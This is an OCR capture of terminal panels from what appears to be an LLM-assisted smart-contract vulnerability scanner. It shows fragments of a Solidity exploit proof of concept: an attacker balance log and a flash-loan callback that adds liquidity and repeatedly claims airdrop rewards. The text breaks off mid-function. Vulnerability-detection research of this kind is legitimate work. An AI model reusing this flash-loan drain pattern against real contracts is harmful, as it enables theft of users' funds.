 │                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "[End] Attacker USDT balance after exploit",                                                                                                                                                                                             │
│             USDT.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│     }                                                                                                                                                                                                                                                │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function DPPFlashLoanCall(address sender, uint256 baseAmount, uint256 quoteAmount, bytes calldata data) external{                                                                                                                                │
│         buyRLAndAddLiquidity();                                                                                                                                                                                                                      │
│         //claimAirDrop                                                                                                                                                                                                                               │
│         for(uint i = 0; i < contractAddress.length; i++){                                                                                                                                                                                            │
│             Pair.transfer(contractAddress, Pair.balanceOf(address(this)));                                                                                                                                                                           │
│             (bool success,) = contractAddress.call(abi.encodeWithSignature("airDropReward(address)", address(this)));                                                                                                                                │
│             require(success);                                                                                                                                                                                                                        │